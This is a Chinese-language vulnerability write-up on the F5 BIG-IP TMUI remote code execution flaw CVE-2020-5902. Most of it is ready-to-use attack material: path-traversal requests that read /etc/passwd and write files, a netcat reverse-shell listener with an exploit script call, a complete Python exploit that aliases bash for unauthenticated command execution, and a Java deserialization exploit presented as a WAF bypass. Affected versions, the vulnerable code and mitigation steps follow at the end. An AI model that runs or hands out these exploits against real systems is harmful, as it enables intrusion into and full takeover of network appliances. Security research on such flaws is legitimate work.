





## F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902） {docsify-ignore}

编辑：[@r4v3zn](https://github.com/0nise)

分析作者：[@Jas502n](https://github.com/jas502n)

### Payload

```
GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp 
GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse
```



任意文件读取

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```



列出所有文件：

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/ HTTP/1.1
```



任意文件写入：

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/balabalabla&content=id11
```



RCE：

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

执行命令：https://devcentral.f5.com/s/question/0D51T00006i7hq9/tmsh-command-to-list-all-users-in-all-partitions




2020 年 7 月 8 日绕过，通过 hsqldb + 序列化进行绕过补丁，利用方案：

```
nc -l -v -p localport
./CVE-2020-5902.sh <server> <localip> <localport>
```

github：https://github.com/Critical-Start/Team-Ares/tree/master/CVE-2020-5902

**通过bash执行命令的 payload：**

通过 alias = bash 去绕过无法执行 shell 的限制。payload如下

```python
#coding:utf-8
import requests
import json
import requests.packages.urllib3
requests.packages.urllib3.disable_warnings()
import uuid
import sys

# tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
# fileSave.jsp?fileName=/tmp/cmd&content=id
# tmshCmd.jsp?command=list+/tmp/cmd
# tmshCmd.jsp?command=delete+cli+alias+private+list

banner = r'''
 _______  _______    ______  _________ _______   _________ _______    _______  _______  _______
(  ____ \(  ____ \  (  ___ \ \__   __/(  ____ \  \__   __/(  ____ )  (  ____ )(  ____ \(  ____ \
| (    \/| (    \/  | (   ) )   ) (   | (    \/     ) (   | (    )|  | (    )|| (    \/| (    \/
| (__    | (____    | (__/ /    | |   | |           | |   | (____)|  | (____)|| |      | (__
|  __)   (_____ \   |  __ (     | |   | | ____      | |   |  _____)  |     __)| |      |  __)
| (            ) )  | (  \ \    | |   | | \_  )     | |   | (        | (\ (   | |      | (
| )      /\____) )  | )___) )___) (___| (___) |  ___) (___| )        | ) \ \__| (____/\| (____/\
|/       \______/   |/ \___/ \_______/(_______)  \_______/|/         |/   \__/(_______/(_______/
                                                                                                
                        CVE-2020-5902 UnAuth RCE Vuln
                            Python By Jas502n
From: https://github.com/rapid7/metasploit-framework/blob/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb
____________________________________________________________________________________________________________________________________________________
'''

def tmshCmd_exit(url,file,cmd):
    tmshCmd_url = url + "/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash"
    proxies = {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}
    r = requests.get(tmshCmd_url,verify=False,allow_redirects=False)
    # r = requests.get(tmshCmd_url,verify=False,allow_redirects=False,proxies=proxies)

    response_str = json.dumps(r.headers.__dict__['_store'])
    # print type(response_str)
    # print response_str
    if r.status_code == 200 and 'tmui' in response_str:
        # print tmshCmd_url
        print "[+] tmshCmd.jsp Exit!"
        print "[+] create cli alias private list command bash \n"
        # cmd = 'whoami'
        upload_exit(url,file,cmd)


    else:
        print "[+] tmshCmd.jsp No Exit!\n"

def upload_exit(url,file,cmd):
    fileSave_url = url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/%s&content="%file + cmd
    proxies = {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}
    r = requests.get(fileSave_url,verify=False,allow_redirects=False)
    # r = requests.get(fileSave_url,verify=False,allow_redirects=False,proxies=proxies)
    response_str = json.dumps(r.headers.__dict__['_store'])
    if r.status_code == 200 and 'tmui' in response_str:
        # print fileSave_url
        print "[+] fileSave.jsp Exit!\n"
        list_command(url,file)
    else:
        print "[+] fileSave.jsp No Exit!\n"

def list_command(url,file):
    rce_url = url + "/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/%s" % file
    proxies = {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}
    r = requests.get(rce_url,verify=False,allow_redirects=False)
    # r = requests.get(rce_url,verify=False,allow_redirects=False,proxies=proxies)
    response_str = json.dumps(r.headers.__dict__['_store'])
    # print len(r.content)
    if r.status_code == 200 and 'tmui' in response_str:
        if len(r.content) > 33:
            # print rce_url
            print "[+] Command Successfull !\n"
            command_result = json.loads(r.content)
            print "_"*90,'\n\n'
            print command_result['output']
            print "_"*90,"\n\n"
            delete_list(url)
    else:
        print "[+] Command Failed !\n"

def delete_list(url):
    delete_url = url + '/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list'
    proxies = {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}
    r = requests.get(delete_url,verify=False,allow_redirects=False)
    # r = requests.get(delete_url,verify=False,allow_redirects=False,proxies=proxies)
    response_str = json.dumps(r.headers.__dict__['_store'])
    if r.status_code == 200 and 'tmui' in response_str:
        # print delete_url
        print "[+] delete cli alias private list Successfull! \n"
    else:
        print "[+] delete cli alias private list Failed! \n"


if __name__ == '__main__':
    print banner
    while 1:
        url = "https://x.x.x.x/"
        # url = sys.argv[1]
        file = str(uuid.uuid1())
        print "/tmp/" + file,"\n"
        cmd = raw_input("[+]Set Cmd= ")
        print
        tmshCmd_exit(url,file,cmd)
```

**通过 java 反序列化绕过 waf 的 payload ：**

上一种 payload 特征明显，很容易被 waf 等设备拦截。在这里我们可以使用 java 反序列化配合 cve 2020-5902 去执行命令。做到隐藏特征以绕过waf。

```python
/*
 Exploit Title: F5 BIG-IP Remote Code Execution
 Date: 2020-07-06
 Authors: Charles Dardaman of Critical Start, TeamARES
                  Rich Mirch of Critical Start, TeamARES
 CVE: CVE-2020-5902
 Requirements:
   Java JDK
   hsqldb.jar 1.8
   ysoserial https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
*/

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.Statement;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.io.IOException;
import org.hsqldb.lib.StringConverter;

public class f5RCE {

	public static void main(String[] args) {
		Connection connection;
		Statement statement;

		if(args.length != 2) {
			System.err.println("\nUsage: <hostname> <payload.txt>\n");
			System.exit(1);
		}
		String server = args[0];
		String pfile = args[1];
		String payload = null;

		try {
			payload = new String(Files.readAllBytes(Paths.get(pfile)));
			payload = payload.replaceAll("(\\n|\\r)","");
		} catch (IOException e) {
			e.printStackTrace();
		}

		String dburl = "jdbc:hsqldb:https://" + server +
                               ":443/tmui/login.jsp/..%3b/hsqldb/";

		System.out.println("Connecting to " + server);
		try {
			Class.forName("org.hsqldb.jdbcDriver");
			connection = DriverManager.getConnection(dburl, "sa","");
			statement = connection.createStatement();
			statement.execute("call \"java.lang.System.setProperty\"('org.apache.commons.collections.enableUnsafeSerialization','true')");
			statement.execute("call \"org.hsqldb.util.ScriptTool.main\"('" + payload +"');");
		} catch (java.sql.SQLException sqle) {
			// ignore java.sql.SQLException: S1000
			// General error java.lang.IllegalArgumentException: argument type mismatch
			if(sqle.getSQLState().equals("S1000") && sqle.getErrorCode() == 40) {
				System.out.println("Payload executed");
			} else {
				System.out.println("Unexpected SQL error");
				sqle.printStackTrace();
			}
			return;
		}
		catch (ClassNotFoundException cne) {
			System.err.println("Error loading db driver");
			cne.printStackTrace();
			return;
		}
	}
}
```

### 概况

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。2020 年7 月 1日，F5 公布流量管理用户界面（TMUI），也称为配置实用程序，在未公开的页面中具有远程执行代码（RCE）漏洞，漏洞编号为 CVE-2020-5902。

攻击者可利用该漏洞执行任意的系统命令、创建或删除文件，关闭服务/执行任意的Java代码，可能完全入侵系统，对此漏洞 CVSS 评分 10 分。

### 影响版本

- BIG-IP = 15.1.0
- BIG-IP = 15.0.0
- BIG-IP 14.1.0 - 14.1.2
- BIG-IP 13.1.0 - 13.1.3
- BIG-IP 12.1.0 - 12.1.5
- BIG-IP 11.6.1 - 11.6.5

### 分析过程

漏洞点：

```java
JSONObject resultObject = WorkspaceUtils.runTmshCommand(cmd, request);
```

```java
/usr/local/www/tmui/WEB-INF/lib/tmui.jar/com.f5.tmui.locallb.handler.workspace.WorkspaceUtils#runTmshCommand
```

```java
public static JSONObject runTmshCommand(String command, HttpServletRequest request) {
    F5Logger logger = (F5Logger)F5Logger.getLogger(WorkspaceUtils.class);
    JSONObject resultObject = new JSONObject();
    String output = "";
    String error = "";
    if (!csrfValidated(request.getHeader("_bufvalue"), request.getHeader("_timenow"), request.getHeader("Tmui-Dubbuf"))) {
      logger.warn("Invalid user token - token provided by user is not authorized");
      resultObject.put("output", output);
      resultObject.put("error", NLSEngine.getString("ilx.workspace.error.InvalidUserToken"));
      return resultObject;
    } 
    if ("POST".equalsIgnoreCase(request.getMethod())) {
      String[] cmdArray = command.split(" ");
      String operation = cmdArray[0];
      String module = cmdArray[2];
      if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
        try {
          String[] args = { command };
          Syscall.Result result = Syscall.callElevated(Syscall.TMSH, args);
          output = result.getOutput();
          error = result.getError();
        } catch (com.f5.tmui.util.Syscall.CallException e) {
          logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + e.getMessage());
          error = e.getMessage();
        } 
      } else {
        error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
      } 
    } else {
      error = NLSEngine.getString("ilx.workspace.error.InvalidMethod");
    } 
    resultObject.put("output", output);
    resultObject.put("error", error);
    return resultObject;
}
```

### 靶场

无

### 修复

1. 登陆 TMOS Shell（**tmsh**）执行：

`tmsh`

2. 修改 httpd 配置信息：

```
edit /sys httpd all-properties
```

3. 找到`include` 部分并添加以下内容：

```
include'
<LocationMatch“;”>
Redirect404 /
</ LocationMatch>
'
```

4. 通过输入以下命令，将更改写入并保存到配置文件中：

```
Esc
:wq!
```

5. 通过输入以下命令来保存配置：

```
save /sys config
```

6. 通过输入以下命令来重新启动**httpd**服务：

```
restart sys service httpd
```

也可以通过升级的方式来进行修复：

- BIG-IP 15.x 升级至 15.1.0.4

- BIG-IP 14.x 升级至 14.1.2.6
- BIG-IP 13.x 升级至 13.1.3.4
- BIG-IP 12.x 升级至 12.1.5.2
- BIG-IP 11.x 升级至 11.6.5.2

### 分析文章

- [CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)

### 参考

- https://twitter.com/Nep_1337_1998/status/1279610946864820225
- https://github.com/jas502n/CVE-2020-5902
- https://mp.weixin.qq.com/s/LczKnV5f7T-0Nw7p4q_0wg
- https://nosec.org/home/detail/4503.html
- https://mp.weixin.qq.com/s/K2lSSih4lD0SwXPNd4yauA